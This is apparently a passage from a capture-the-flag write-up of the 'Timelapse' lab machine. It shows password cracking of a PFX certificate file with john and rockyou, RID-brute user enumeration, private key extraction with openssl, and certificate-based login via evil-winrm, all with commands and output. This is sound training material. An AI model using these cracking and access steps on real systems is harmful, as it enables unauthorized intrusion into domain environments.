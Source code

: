 - a **private key**
- its corresponding **public certificate** (X.509 format)
- and optionally, the **entire certificate chain** (intermediate + root CAs).

It’s a **binary format** commonly used for **authentication** and **encryption**, especially in Windows, IIS, and Active Directory environments.

We can try and crack it’s private key again with john:

```bash
pfx2john legacyy_dev_auth.pfx legacyy_dev_auth.hash

john --wordlist=/usr/share/wordlists/rockyou.txt legacyy_dev_auth.hash

thuglegacy       (legacyy_dev_auth.pfx) 
```

Let’s enumerate users and get a list of valid AD users on the machine:

```bash
nxc smb 10.10.11.152 -u any -p '' --rid-brute 6000
```

Format it:

```bash
grep TIMELAPSE rid-brute.txt | awk '{print $6}' | awk -F\\ '{print $2}' | sort -u | grep -v '\$$' | tr '[:upper:]' '[:lower:]' > ad_users.txt
```

From the users lists, we see a user legacyy. 

Now let’s extract the private and public key:

```bash
openssl pkcs12 -in backup/legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
# => extract the private key only, and because of -nodes the key is written **unencrypted** to key.pem

openssl pkcs12 -in backup/legacyy_dev_auth.pfx -nokeys -out cert.pem
# => extract the certificate(s) only (no private key) to cert.pem

```

Now let’s use evil-winrm to login:

```bash
evil-winrm -S -c cert.pem -k key.pem -i 10.10.11.152
```

![image.png]({{ site.baseurl }}/assets/timelapse/image%201.png)

We are in.

Let’s check our privilges:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
